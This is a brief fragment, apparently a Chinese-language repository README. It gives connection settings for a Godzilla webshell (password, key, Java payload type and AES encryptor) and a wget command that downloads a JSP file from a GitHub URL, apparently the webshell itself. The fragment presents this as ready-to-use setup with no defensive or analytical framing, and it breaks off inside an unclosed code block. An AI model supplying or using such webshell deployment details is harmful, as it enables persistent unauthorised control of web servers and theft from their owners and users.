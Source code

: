 ### 连接方式
Godzilla连接配置:
密码:Tas9er  密钥:0WKj6wD  有效载荷:JavaDynamicPayload  加密器:JAVA_AES_BASE64

```
wget https://raw.githubusercontent.com/kd6379/test/refs/heads/main/test1.jsp
